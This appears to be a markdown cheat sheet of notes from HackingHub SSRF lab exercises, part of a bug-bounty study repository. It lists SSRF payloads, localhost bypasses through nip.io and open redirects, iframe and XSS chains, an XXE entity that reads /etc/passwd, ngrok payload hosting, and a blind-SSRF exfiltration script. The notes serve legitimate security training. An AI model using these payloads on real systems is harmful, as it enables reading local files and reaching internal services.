

# SSRF (HackingHub)



https://app.interactsh.com/#/

### Screenshot Context and PDF Context

```text
http://puuatcmlkisigmqtcmzzjtswfv8t67vdw.oast.fun
```

```text
http://127.0.0.1
```

```text
file:///etc/passwd
```

### Blacklisted Resources

```text
http://127.1
```

https://nip.io/

`<anything>[.-]<IP Address>.nip.io` in **"dot"**, **"dash"** or **"hexadecimal"** notation to the corresponding `<IP Address>`:

- dot notation: `magic.127.0.0.1.nip.io`
- dash notation: `magic-127-0-0-1.nip.io`
- hexadecimal notation: `magic-7f000001.nip.io`

### Whitelisting and Bypasses

```text
http://hackinghub.io.127.0.0.1.nip.io
```

### Chaining Open Redirects

```text
https://charcoal.ctfio.com/?redirect=http://localhost:8080
```

### In an Image Context

Scan internal ports, 
Time based
```text
http://127.0.0.1:8080/favicon.ico
```

### Chaining HTML Injection

```text

```

```text
<iframe/src="http://localhost:8080">
```

### Chaining XSS

```text
<script>document.write(document.location)</script> 
```

```text
<script>window.location = "http://localhost"; </script>
```

```text
<script>window.location = "file:///etc/passwd"; </script>
```

instead of calling it directly,

```text
<iframe/src=https://mywebsite.com/locationwhere.html>
```

### Chaining XML External Entity (XXE)

```text

```

Get the user-agent --> # Prince v10
```xml
<?xml version="1.0"?>
<!DOCTYPE cdl [<!ENTITY asd SYSTEM "file:///etc/passwd">]>
<cdl>&asd;</cdl>
```

```text
python3 -m http.server 8080
ngrok http http://localhost:8080
```

```text
<iframe/src="https://fbcf-83-213-97-233.ngrok-free.app/prince-poc.xml">
```

### Blind SSRF

```html
<script>
    // Create a new XMLHttpRequest object
    exfil = new XMLHttpRequest();

    // Set the target server below (e.g., https://abcdefg.ctfio.com)
    exfil.open("GET", "https://burgundy.ctfio.com/blind/recipe");
    exfil.send();

    // Set your Colab instance URL below to capture the contents of /blind/recipe
    exfil.onload = function() { 
        document.write(''); 
    }
</script>
```

## Procedencia

| Repositorio | Archivo original | Commit de origen |
| --- | --- | --- |
| CBBH | BB/hackinghub/SSRF.md | 284a0a42d23a00f2b47b7460371a517a14cb6261 |

[Índice de categoría](../README.md) · [Inicio](../../README.md)
